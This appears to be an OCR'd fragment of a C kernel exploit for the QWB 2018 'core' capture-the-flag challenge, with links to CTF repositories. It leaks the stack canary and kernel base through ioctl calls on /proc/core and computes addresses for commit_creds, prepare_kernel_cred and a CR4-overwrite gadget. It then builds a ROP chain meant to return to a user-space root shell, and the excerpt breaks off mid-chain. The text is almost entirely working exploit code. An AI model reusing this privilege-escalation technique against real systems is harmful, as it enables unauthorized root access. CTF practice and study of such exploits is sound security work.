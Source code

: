 ```c
    char *str = "H1\xffX\xff\xd0H\x97X\xff\xd0\x0f\x01\xf8H\xcf";
    memcpy(gadgets,str,0x100);
    return gadgets;
}

// xor rdi,rdi
// pop rax
// call rax
// xchg rax,rdi
// pop rax
// call rax
// swapgs
// iretq

void shell(){
    system("/bin/sh");
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*] status has been saved.");
}

#define OFFSET  0x6677889C
#define READ    0x6677889B
#define OOB     0x6677889A
int main()
{
    char buf[0x1000];
    memset(buf,0,0x1000);
    int fd = open("/proc/core",2);
    if(!fd>0)
        Panic("Open");
    // Leak the data
    ioctl(fd,OFFSET,0x40);
    ioctl(fd,READ,buf);
    size_t canary           =  u64(buf);
    size_t base   =  u64(buf+0x20);
    printf("[+] Leaked Kernel Address => %p\n",base);
    printf("[+] Canary => %p\n",canary);

    // ret2user Space
    size_t * p = buf;
    size_t ct = 0x40/8;

    size_t prepare_creds    = base + (0xffffffff8109cce0-0xffffffff811dd6d1);
    size_t commit_cred      = base + (0xffffffff8109c8e0-0xffffffff811dd6d1);
    size_t rdi              = base + (0xffffffff81000b2f-0xffffffff811dd6d1);

    // mov cr4, rdi; push rdx; popfq; ret;
    size_t cr4_ret  = base + (0xffffffff81075014-0xffffffff811dd6d1);

    
    p[ct++] = canary;
    p[ct++] = 0xdeadbeef;
    p[ct++] = rdi;
    p[ct++] = 0x6f0;
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core